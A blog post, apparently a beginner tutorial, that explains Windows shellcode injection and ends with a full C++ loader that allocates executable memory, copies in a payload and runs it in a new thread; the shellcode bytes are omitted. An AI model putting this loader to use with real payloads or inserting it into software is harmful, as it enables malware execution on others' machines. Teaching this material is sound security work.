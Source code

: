 ```yaml
---
layout: post
title: Let's Make Malware
---
```


# Let’s make malware

## Why?
So, why this post? Some time ago, I was scrolling through Twitter and came across an interesting tweet about malware development. I looked through the comments and found one in particular claiming that you should never pay for courses because you can learn everything you need to online for free. “Just read code”, the comment said.

While I agree that you can absolutely find everything you need online for free, and that you should learn to read code, claiming someone should never pay for courses is ridiculous. It is equivalent to suggesting you should never find a mentor or coach because you can figure everything out yourself.
You could do so, of course, but it would be much more time efficient to have someone telling you what steps to take and what to avoid.

The other reason for this post is because after talking with a coworker, I realized there are not very many resources available for those starting out.
I think that is because this topic itself isn’t really one for beginners or those without a decent understanding of computer science fundamentals and (in this case) Windows Internals.

Nonetheless, I’d like to attempt to remedy this. 

There are plenty of excellent resources that also cover basic process injection as this post will do, but I think it’s important to cover the basics before moving into more advanced and complicated examples in later posts. 

So, let’s make malware.

## Preamble
To put things simply, Windows malware generally follows the same format. First, you create a space to hold your shellcode in the process’s memory. This space is called a memory buffer. 
This buffer can be inside the local process or it can be inside a remote process. 

Then, you move the shellcode into that buffer. 

Finally, you execute it.

## Implementation

### VirtualAlloc
So, how do we actually do that? We use the Win32 API. We’ll need just three functions for this example.
First, VirtualAlloc for creating our memory buffer. It looks like this: 

```cpp
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

The first parameter, as defined by MSDN, is “The starting address of the region to allocate”. We can set this to NULL to let the system determine where to allocate the region.

The second parameter, simply put, is the size of the buffer in bytes. 

The next parameter is the type of memory allocation. There are a few different ones we could choose from, but for this example we want the MEM_COMMIT (0x000010000) type.

Finally, the last parameter, flProtect, is the memory protection. Again, there are a few different ones we could choose from, but we want PAGE_EXECUTE_READWRITE. 

If we did everything correctly, VirtualAlloc will return the base address of our memory buffer. Simply put, the base address is our starting point.

### CopyMemory

We’ll use CopyMemory for moving our shellcode into the buffer. It looks like this: 

```cpp
void CopyMemory(
  _In_       PVOID  Destination,
  _In_ const VOID   *Source,
  _In_       SIZE_T Length
);
```

It should be self-explanatory. The first parameter is the location (starting memory address) we want to copy to. This is our buffer.

The second parameter is the location (starting memory address) of the thing we’re copying. This is our payload. 

Finally, it needs to know how much to copy into our buffer. We want to copy all our shellcode. 

### CreateThread

Lastly, we’ll use CreateThread for executing the shellcode inside the buffer. It looks like this:

```cpp
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```

The first parameter isn’t necessary, so we set it to NULL. 

The second parameter also isn’t necessary. We set it to zero. 

The third parameter is the starting address of what we want to execute. This is our buffer variable.

We are not passing any variables to our thread, so we can set the fourth parameter to zero.

The fifth parameter is for any flags we want to set. We could use this to create the thread in a suspended state, however we will use 0 here. The 0 flag just runs the thread immediately after its created.

Finally, the sixth parameter is not necessary. We will set it to NULL. 

### All Together Now

Here’s how that looks in C++. 
```cpp
#include “windows.h”
int main() {
//msfvenom Calc shellcode
unsigned char payload[] = {… don’t trust random shellcode blobs you find on the Internet … };
LPVOID buffer = VirtualAlloc(0, sizeof payload, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
CopyMemory(buffer, payload, sizeof payload);
HANDLE tHandle = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE) buffer, 0, 0, NULL);
WaitForSingleObject(tHandle, INFINITE);
return 0;
} 
```

That final API call (WaitForSingleObject) is simply waiting for our newly created thread to finish executing before continuing. The first parameter is the object we are waiting on. In this case, it’s the tHandle variable. The second parameter is how long we want to wait before moving on. We put the value INFINITE so it will wait indefinitely. 

So, I lied. There are four API calls we need to make. If we don’t include that final call, our process ends before the thread has finished executed, killing the thread with it. 

After compiling and running, we should see calc.exe pop up. Success! 
